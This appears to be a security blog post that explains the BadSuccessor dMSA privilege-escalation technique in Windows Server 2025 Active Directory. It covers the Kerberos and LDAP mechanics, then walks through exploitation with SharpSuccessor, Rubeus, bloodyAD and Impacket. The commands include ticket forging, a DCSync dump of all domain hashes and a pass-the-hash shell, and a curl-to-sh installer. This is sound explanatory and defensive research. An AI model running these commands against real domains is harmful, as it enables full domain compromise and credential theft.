

import { Callout } from '@/components/Callout'


# BadSuccessor: How dMSA Migration Mechanics Enable Full Domain Compromise in Windows Server 2025

BadSuccessor, published by Akamai researcher Yuval Gordon in May 2025, demonstrates that any principal with the ability to create a dMSA object in any Organizational Unit can impersonate any account in the domain — including Domain Admins — through a sequence of two LDAP attribute writes. No software exploit, no lateral movement to a privileged system, and no interaction with the target account is required.

This post provides a complete technical breakdown: the architecture of dMSA migration, the precise Kerberos and LDAP mechanics that create the vulnerability, step-by-step exploitation on both Windows and Linux.

---

## Background: The Managed Service Account Family

Service accounts in Windows have historically been a persistent source of credential risk. Long-lived passwords, shared credentials across systems, and manual rotation procedures create exposure that adversaries reliably exploit. The Managed Service Account family addresses this by having Active Directory own and rotate credentials automatically.

Three generations of this account type exist, each expanding the scope of coverage:

**Standalone Managed Service Accounts (sMSA)**, introduced in Windows Server 2008 R2, handle password rotation for a service running on a single host. Active Directory manages the credential lifecycle; the administrator never touches the password.

**Group Managed Service Accounts (gMSA)**, introduced in Windows Server 2012, extend this model to distributed services. Passwords are derived cryptographically from the Key Distribution Service root key, and any machine account explicitly listed in the account's access control is authorized to retrieve the current password on demand. A gMSA is always created fresh; it has no predecessor.

**Delegated Managed Service Accounts (dMSA)** serve a fundamentally different purpose. Rather than creating a new managed identity, a dMSA is designed to absorb an existing legacy service account — inheriting its identity, permissions, group memberships, and service principal names — while transferring credential management to Active Directory. The migration is designed to be seamless and transparent to running services. This migration capability, and specifically the trust model it establishes in the KDC, is what BadSuccessor exploits.

---

## The dMSA Migration Architecture

### What a dMSA Is

A dMSA is a computer-class Active Directory object. It differs from a gMSA in its ability to declare a predecessor account and inherit that account's access rights through the Key Distribution Center at authentication time. The migration process allows the dMSA to take over a role previously held by a traditional service account, with Active Directory handling the credential from that point forward.

The "delegated" qualifier refers to administrative scope: a dMSA is managed by an administrator and is intended for use on a specific server, as opposed to a gMSA which is domain-scoped and authorized across multiple machines.

### The Migration State Machine

Migration progress is tracked through the `msDS-DelegatedMSAState` attribute on the dMSA object. The semantics below are derived from behavioral analysis published by Akamai:

| Value | State | Description |
|-------|-------|-------------|
| `0` | Unknown | Possibly disabled; behavior unconfirmed by published research |
| `1` | In Progress | Migration started; legacy account still operational |
| `2` | Completed | Migration finalized; legacy account disabled |
| `3` | Standalone | dMSA is in active use without a migration predecessor |

### Attributes Governing the Migration Relationship

Several LDAP attributes form the bidirectional linkage between the dMSA and the account it supersedes:

**On the dMSA object:**

| Attribute | Role |
|-----------|------|
| `msDS-ManagedAccountPrecededByLink` | Distinguished Name of the superseded legacy account |
| `msDS-GroupMSAMembership` | Security descriptor listing principals authorized to retrieve the dMSA's managed password |

**On the superseded account:**

| Attribute | Role |
|-----------|------|
| `msDS-SupersededManagedAccountLink` | DN of the succeeding dMSA |
| `msDS-SupersededServiceAccountState` | Migration state from the legacy account's perspective, mirroring `msDS-DelegatedMSAState` |

### The Migration Handshake in Detail

Migration is initiated through the PowerShell cmdlet `Start-ADServiceAccountMigration`, which internally calls a privileged LDAP rootDSE operation named **migrateADServiceAccount**. This operation accepts three parameters: the Distinguished Name of the dMSA, the DN of the legacy account, and the `StartMigration` constant.

When `StartMigration` executes, the following changes are applied atomically to Active Directory:


**Step 1 — dMSA State Transition**
`msDS-DelegatedMSAState` on the dMSA is set to `1` (migration in progress).

**Step 2 — Write Access Granted to the Legacy Account**
The dMSA's `ntSecurityDescriptor` is modified. The superseded account is granted read access to the dMSA object and explicit write access to the `msDS-GroupMSAMembership` attribute.

**Step 3 — Predecessor Link Set**
`msDS-ManagedAccountPrecededByLink` on the dMSA is written with the DN of the legacy account.

**Step 4 — Successor Link Set**
`msDS-SupersededManagedAccountLink` on the legacy account is written with the DN of the dMSA.

**Step 5 — Legacy Account State Update**
`msDS-SupersededServiceAccountState` on the legacy account is set to `1` (migration in progress).


Migration is completed through `Complete-ADServiceAccountMigration`. Upon completion, the dMSA inherits the legacy account's SPNs, delegation settings, and group memberships. The legacy account is disabled, and both state attributes advance to `2`.



---

## Kerberos Authentication Across the dMSA Lifecycle

The migration design has an explicit engineering goal: running services must transition from the legacy credential to the dMSA without requiring reconfiguration or service restarts. This transparency is achieved through a Kerberos extension. Understanding that extension is prerequisite to understanding why BadSuccessor works.

### The Ticket Granting Ticket and Its Role in This Flow

<Callout type="info">
**What Is a TGT?**

A Ticket Granting Ticket (TGT) is the primary credential issued by the Key Distribution Center (KDC) — the authentication authority on an Active Directory domain controller — after a principal successfully completes the initial Kerberos AS exchange. The client sends an Authentication Service Request (AS-REQ), and the KDC responds with an AS-REP containing the TGT, which is encrypted with the KDC's own secret (derived from the `krbtgt` account).

The TGT is not an authorization grant in isolation. It is a proof-of-identity token that the client presents to the KDC when requesting service-specific Ticket Granting Service (TGS) tickets. The KDC decrypts and verifies the TGT, then issues a TGS authorizing access to a specific service.

Critically, both the TGT and the TGS embed a **Privilege Attribute Certificate (PAC)** — a Microsoft extension to the Kerberos standard that carries the authenticated principal's group membership SIDs. Every authorization decision at the resource layer is driven by the contents of this PAC. When a file server, domain controller, or any Kerberos-protected service evaluates an incoming request, it reads the PAC to determine what the caller is permitted to do.

BadSuccessor's impact flows from this architecture. By controlling what the KDC embeds in the PAC of a dMSA's TGT — specifically, by pointing `msDS-ManagedAccountPrecededByLink` at a Domain Admin — an attacker causes every downstream authorization decision to treat the dMSA as that privileged account.
</Callout>

### Pre-Migration Authentication

Before any migration is initiated, a legacy service account `svc_sql` running on `SQL_SRV$` follows the standard Kerberos AS exchange. The host sends an AS-REQ to the KDC for `svc_sql`, receives a standard AS-REP containing a TGT with `svc_sql`'s group memberships in the PAC, and proceeds normally. No special handling occurs; the KDC has no awareness of a dMSA relationship.

### Authentication During Migration: The KERB-SUPERSEDED-BY-USER Extension

Once `Start-ADServiceAccountMigration` is called and migration enters the in-progress state, the KDC's behavior changes for AS-REQs targeting the legacy account:

1. `SQL_SRV$` sends an AS-REQ requesting a TGT for `svc_sql`.
2. The KDC detects that `svc_sql` carries a `msDS-SupersededManagedAccountLink` pointing to `DMSA$`. It appends a **KERB-SUPERSEDED-BY-USER** field to the AS-REP, specifying the name and realm of the dMSA.
3. If the requesting host runs Windows Server 2025 or Windows 11 24H2 with the dMSA feature enabled, it recognizes the hint and performs an LDAP query against the dMSA to read `msDS-GroupMSAMembership`, `distinguishedName`, and `objectClass`.
4. Crucially, the host — operating under the security context of `svc_sql` — issues an LDAP modify request that adds its own machine account (`SQL_SRV$`) to the dMSA's `msDS-GroupMSAMembership`. This succeeds because `StartMigration` explicitly granted `svc_sql` write access to that attribute.

This self-enrollment mechanism means every host where `svc_sql` authenticates during the migration window adds itself to the authorized password readers list without any administrator intervention. By migration completion, all active clients are transparently enrolled.

### Post-Migration Authentication

After `Complete-ADServiceAccountMigration` runs and `svc_sql` is disabled:

- AS-REQs for `svc_sql` receive a KRB-ERROR (account disabled) that still carries the `KERB-SUPERSEDED-BY-USER` field pointing to `DMSA$`.
- The client recognizes the hint and retries authentication as `DMSA$` directly.
- Because `SQL_SRV$` was enrolled in `msDS-GroupMSAMembership` during the migration window, it can retrieve the dMSA's managed password, obtain a TGT, and continue operating without any manual reconfiguration.

The entire transition is invisible to the service operator. The attack surface, however, does not require waiting for completion — it opens the moment any dMSA exists and an attacker can write to it.

---

## Discovering the Vulnerability

### How the KDC Builds the dMSA PAC

When the KDC processes a TGT request for a dMSA that has `msDS-DelegatedMSAState` set to `2` (migration completed), it reads `msDS-ManagedAccountPrecededByLink`, resolves the SIDs of the referenced account, and embeds those group memberships in the dMSA's PAC. The dMSA, from any downstream authorization perspective, is indistinguishable from the superseded account.

This behavior immediately surfaces an adversarial question: **what prevents a low-privileged attacker from writing a Domain Admin's DN into `msDS-ManagedAccountPrecededByLink`?**

### The Blocked Path: `migrateADServiceAccount` Restriction

The most direct conceivable attack is:

1. Create a dMSA.
2. Call `migrateADServiceAccount` linking it to a Domain Admin account.
3. Authenticate as the dMSA and inherit full Domain Admin privileges.

This path is blocked. The `migrateADServiceAccount` rootDSE operation is restricted to Domain Admins. A low-privileged attacker cannot invoke it, regardless of their control over the dMSA object or their permissions in the domain.

### The Real Vulnerability: Access Control Mismatch

The restriction on `migrateADServiceAccount` protects the operation of invoking a migration. It does not equivalently restrict the underlying LDAP attributes that migration writes. Both `msDS-ManagedAccountPrecededByLink` and `msDS-DelegatedMSAState` are writable directly via standard LDAP by any principal with write access to the dMSA object.

The KDC does not verify that a `migrateADServiceAccount` operation was ever performed before applying PAC inheritance. At authentication time, it reads these two attributes and treats their current values as authoritative. If they indicate a completed migration, the KDC builds the PAC accordingly — regardless of how those values were set.

<Callout type="danger">
**The Core Flaw:** The operation that initiates migration is restricted to Domain Admins. The attributes that encode migration state are not. The KDC trusts these attributes unconditionally, with no verification of the process by which they were written. This is the gap BadSuccessor exploits.
</Callout>

---

## BadSuccessor: The Simulated Migration Attack

### Conceptual Breakdown: LDAP Attribute Manipulation Step by Step

The following sequence describes how an attacker with write access to a dMSA synthesizes a "completed migration" through direct LDAP attribute manipulation, with no interaction with the target account and no invocation of privileged operations.


**Step 1 — Obtain Write Access to a dMSA**
The attacker needs one of two starting conditions: write access to an existing dMSA object in any OU, or the `CreateChild` right on an OU (the right to create new objects, including `msDS-GroupManagedServiceAccount` objects, which the creator owns by default). The `CreateChild` right on an OU is commonly delegated to IT operations, helpdesk roles, and automation accounts.

**Step 2 — Select the Impersonation Target**
Choose any Active Directory principal. There is no restriction based on privilege level. The technique operates identically against a standard user account or a member of Domain Admins.

**Step 3 — Write the Target's DN to `msDS-ManagedAccountPrecededByLink`**
Set this attribute on the dMSA to the Distinguished Name of the target account. This is the instruction the KDC will follow when constructing the PAC. The target account requires no interaction — it is never modified, accessed for its credentials, or alerted in any way.

```powershell
Set-ADObject -Identity "CN=SvcAttack,OU=LabOU,DC=corp,DC=local" `
    -Replace @{"msDS-ManagedAccountPrecededByLink" = "CN=Administrator,CN=Users,DC=corp,DC=local"}
```

**Step 4 — Set `msDS-DelegatedMSAState` to Value `2`**
Without this step, the KDC will not apply PAC inheritance for the dMSA. Setting the state to `2` signals that migration is complete and that the KDC should resolve the predecessor account's SIDs into the PAC.

```powershell
Set-ADObject -Identity "CN=SvcAttack,OU=LabOU,DC=corp,DC=local" `
    -Replace @{"msDS-DelegatedMSAState" = 2}
```

**Step 5 — Authenticate as the dMSA**
Request a TGT for the dMSA. The KDC reads `msDS-ManagedAccountPrecededByLink`, resolves the target's SIDs, and embeds them in the TGT's PAC. The issued TGT carries the complete privilege set of the impersonated account.

**Step 6 — Request Service Tickets and Access Resources**
Present the TGT to request service tickets for any Kerberos-protected resource. Every resource that evaluates the PAC grants access consistent with the impersonated account's group memberships — including domain controller services, file shares, and the AD replication interfaces used in DCSync attacks.

---

## Practical Exploitation

### Reconnaissance: Mapping Exploitable Delegations

Akamai published `Get-BadSuccessorOUPermissions.ps1` alongside the original research. This script enumerates accounts that hold `CreateChild` rights over OUs, specifically the ability to create `msDS-GroupManagedServiceAccount` objects:

```powershell
.\Get-BadSuccessorOUPermissions.ps1
```

Sample output from a vulnerable environment:

```text
Identity            OUs
--------            ---
CORP\helpdesk01     {OU=Services,DC=corp,DC=local}
CORP\svc_deploy     {OU=Workstations,DC=corp,DC=local}
CORP\tbyte          {OU=LabOU,DC=corp,DC=local}
```

Any identity in this output is a viable entry point for the attack.

---

### Windows Exploitation: SharpSuccessor and Rubeus

The primary Windows toolchain combines SharpSuccessor for dMSA creation and attribute manipulation with Rubeus for the Kerberos ticket operations.

#### Creating the Malicious dMSA

SharpSuccessor automates the creation of the dMSA and the two attribute writes described above. It accepts the target OU path, the account operating the attack, a name for the dMSA object, and the principal to impersonate:

```powershell
.\SharpSuccessor.exe add /path:"ou=LabOU,dc=corp,dc=local" /account:helpdesk01 /name:SvcAttack /impersonate:Administrator
```


#### Step 1 — Obtain a TGT for the Current Session

Before requesting a dMSA ticket, the attacker must materialize a usable TGT from the current session. Rubeus's `tgtdeleg` subcommand exploits the unconstrained delegation pathway through the Windows SSPI to extract a forwardable TGT from the credential cache via a legitimate API call, without requiring LSASS memory access:

```powershell
.\Rubeus.exe tgtdeleg /nowrap
```

The `/nowrap` flag outputs the base64-encoded ticket as a single line, suitable for direct use in subsequent commands. Copy the full base64 string from the output.


#### Step 2 — Establish a dMSA Authentication Context

Using the extracted TGT, request a TGS that establishes the dMSA authentication context against the KDC. The `/dmsa` flag directs Rubeus to follow the dMSA-specific Kerberos path, which causes the KDC to apply the PAC inheritance logic and embed the Administrator's SIDs:

```powershell
.\Rubeus.exe asktgs /targetuser:SvcAttack$ /service:krbtgt/corp.local /opsec /dmsa /nowrap /ptt /ticket:<base64_TGT>
```

The `/ptt` flag injects the resulting ticket directly into the current Kerberos session. The `/opsec` flag suppresses RC4 encryption and other high-signal behaviors monitored by endpoint detection platforms.


#### Step 3 — Request a Service Ticket with Administrator Context

With the dMSA TGS in the session cache, request a service ticket for the target resource. The CIFS service on the domain controller is the canonical target for verifying domain-level access:

```powershell
.\Rubeus.exe asktgs /user:SvcAttack$ /service:cifs/DC-2025-01.corp.local /opsec /dmsa /nowrap /ptt /ticket:<base64_DMSA_TGT>
```

<Callout type="info">
**The Three-Step Rubeus Chain Explained:**
The sequence forms a chained privilege escalation through the Kerberos ticket hierarchy.

In the first step, `tgtdeleg` materializes a forwardable TGT from the current session without requiring elevated privileges or LSASS access. This TGT is for the attacker's low-privileged identity.

In the second step, `asktgs` presents that TGT to the KDC and requests a TGS in the dMSA authentication context. The KDC evaluates the dMSA's `msDS-ManagedAccountPrecededByLink` and `msDS-DelegatedMSAState` attributes, resolves the Administrator's SIDs, and embeds them in the resulting ticket's PAC. The attacker now holds a ticket that carries Administrator group memberships.

In the third step, `asktgs` uses the dMSA TGS to request a service-specific ticket. The target service evaluates the incoming PAC and sees Administrator SIDs, granting access accordingly. The service has no mechanism to distinguish this ticket from one legitimately issued to the Administrator account.
</Callout>


---

### Linux Exploitation: bloodyAD and Impacket

The Linux toolchain achieves the same outcome using bloodyAD for LDAP and dMSA operations and Impacket for Kerberos credential manipulation and DCSync.

#### Environment Setup

```bash
# Install required tooling
curl -LsSf https://astral.sh/uv/install.sh | sh
uv tool install --python 3.13 git+https://github.com/CravateRouge/bloodyAD
python3 -m pipx install impacket

# Register the domain controller in /etc/hosts
echo "10.211.101.10   DC-2025-01.corp.local corp.local DC-2025-01" >> /etc/hosts
```

#### Reconnaissance: Confirming Exploitable Permissions

```bash
bloodyAD -d corp.local -u 'helpdesk01' -p 'Password123' \
    --host DC-2025-01.corp.local get writable --detail
```

The relevant output line to look for is `dSA: CREATE_CHILD` associated with an OU. This confirms the current principal can create dMSA objects in that container. The full flag output resembles:

```text
distinguishedName: OU=LabOU,DC=corp,DC=local
device: CREATE_CHILD
organizationalUnit: CREATE_CHILD
...
dSA: CREATE_CHILD
```

#### Exploitation: One Command to Credential Cache

bloodyAD's `add badSuccessor` subcommand encapsulates the complete attack chain — dMSA object creation, attribute manipulation, and immediate TGT request — in a single operation:

```bash
bloodyAD -d corp.local -u 'helpdesk01' -p 'Password123' \
    --host DC-2025-01.corp.local add badSuccessor SvcAttack
```

The command creates `SvcAttack$` impersonating the Administrator by default, outputs the resulting TGT, and writes a Kerberos credential cache file (`.ccache`) to disk. The ccache file contains the TGT for the dMSA account with Administrator SIDs embedded in its PAC.

Sample output:

```text
[*] Creating DMSA SvcAttack$ in OU=LabOU,DC=corp,DC=local
[*] Impersonating: CN=Administrator,CN=Users,DC=corp,DC=local

Realm     : CORP.LOCAL
Sname     : krbtgt/CORP.LOCAL
UserName  : SvcAttack$
StartTime : 2025-06-09 10:00:00+00:00
EndTime   : 2025-06-09 20:00:00+00:00
...
[+] dMSA TGT stored in ccache file SvcAttack_ts.ccache
```

#### Requesting a Service Ticket

```bash
export KRB5CCNAME=SvcAttack_ts.ccache

python3 /opt/impacket/examples/getST.py \
    -dc-ip 10.211.101.10 \
    -spn 'cifs/DC-2025-01.corp.local' \
    'corp.local/SvcAttack$' \
    -k -no-pass
```

The `-k -no-pass` flags direct Impacket to use the Kerberos cache specified in `KRB5CCNAME` without prompting for a password. The resulting service ticket is saved to a new ccache file.

#### DCSync: Dumping the Entire Domain Credential Store

```bash
export KRB5CCNAME=SvcAttack$.ccache

python3 /opt/impacket/examples/secretsdump.py \
    -k -no-pass 'SvcAttack$'@DC-2025-01.corp.local
```

The DCSync operation leverages the AD replication interface (DRSUAPI), which the domain controller permits for accounts with replication rights. The Administrator SIDs in the PAC satisfy that authorization check, and the full NTDS.dit credential store is replicated to the attacker. Every domain account's NT hash is returned.

#### Pass-the-Hash for Interactive Shell Access

```bash
python3 /opt/impacket/examples/wmiexec.py \
    'corp.local/administrator@10.211.101.10' \
    -hashes :984f755c74xxxxxxxxxxxxxx43976fec
```

This yields an interactive shell on the domain controller as `CORP\administrator`.

---

## Conclusion

BadSuccessor is a precise example of a class of vulnerability that recurs in large, long-lived platforms: a new feature introduces a trust relationship whose authorization boundaries were designed for normal use but do not hold under adversarial conditions. The dMSA migration system achieves its engineering goal effectively. Services transition from legacy credentials to managed accounts without disruption. The problem is that the KDC's trust in `msDS-ManagedAccountPrecededByLink` and `msDS-DelegatedMSAState` is unconditional — it verifies what the attributes contain, not whether the process that set them was authorized. The operation that initiates migration is restricted to Domain Admins. The attributes it writes are not.

The attack that follows is disarmingly simple: two LDAP attribute writes on a dMSA object an attacker controls, followed by a Kerberos TGT request. No software exploit, no privilege boundary crossing through code execution, no interaction with the target account. The entry cost is a `CreateChild` delegation on any OU — a permission that organizations distribute freely and rarely review.

Microsoft's classification of this as expected behavior means the patch-and-move-on remediation path is closed. Organizations are left with operational controls: audit OU delegations, monitor attribute-level changes on dMSA objects at the SIEM level, restrict `CreateChild` rights to principals with a documented operational need, and treat any unexpected dMSA object as an immediate investigation trigger.

As Windows Server 2025 adoption accelerates over the coming years, BadSuccessor will establish itself as a standard item in the Active Directory privilege escalation toolkit — for red teams testing domain resilience and for threat actors targeting enterprise environments alike. The defenders who will navigate this period with the least exposure are those who invest in AD tiering, comprehensive attribute-level audit logging, and delegation hygiene before an attack demands that investment.

---

## References

1. **Gordon, Yuval. "Abusing dMSA for Privilege Escalation in Active Directory."**
   Akamai Security Research, May 21, 2025.
   https://www.akamai.com/blog/security-research/abusing-dmsa-for-privilege-escalation-in-active-directory

2. **Microsoft Corporation. "Delegated Managed Service Accounts Overview."**
   Windows Server Identity Documentation, Microsoft Learn.
   https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/manage/delegated-managed-service-accounts/delegated-managed-service-accounts-overview

3. **Microsoft Corporation. "Audit Directory Service Changes."**
   Windows Security Documentation, Microsoft Learn.
   https://learn.microsoft.com/en-us/windows/security/threat-protection/auditing/audit-directory-service-changes

4. **Microsoft Corporation. "Event 5136 — A directory service object was modified."**
   Windows Security Documentation, Microsoft Learn.
   https://learn.microsoft.com/en-us/windows/security/threat-protection/auditing/event-5136

5. **Microsoft Corporation. "Event 5137 — A directory service object was created."**
   Windows Security Documentation, Microsoft Learn.
   https://learn.microsoft.com/en-us/windows/security/threat-protection/auditing/event-5137

6. **Akamai Technologies. "BadSuccessor — Detection Script and PoC."**
   GitHub, 2025.
   https://github.com/akamai/BadSuccessor

7. **Goins, Logan. "SharpSuccessor."**
   GitHub, 2025.
   https://github.com/logangoins/SharpSuccessor

8. **GhostPack. "Rubeus — Kerberos Interaction and Abuse Toolkit."**
   GitHub.
   https://github.com/GhostPack/Rubeus

9. **CravateRouge. "bloodyAD — AD Pentest Swiss Army Knife."**
   GitHub.
   https://github.com/CravateRouge/bloodyAD

10. **Fortra. "Impacket."**
    GitHub.
    https://github.com/fortra/impacket

11. **Microsoft Corporation. "How Kerberos Authentication Works."**
    Windows Server Documentation, Microsoft Learn.
    https://learn.microsoft.com/en-us/windows-server/security/kerberos/kerberos-authentication-overview

12. **TryHackMe. "AD BadSuccessor — Vulnerable Practice Room."**
    TryHackMe, 2025.
    https://tryhackme.com/room/adbadsuccessor
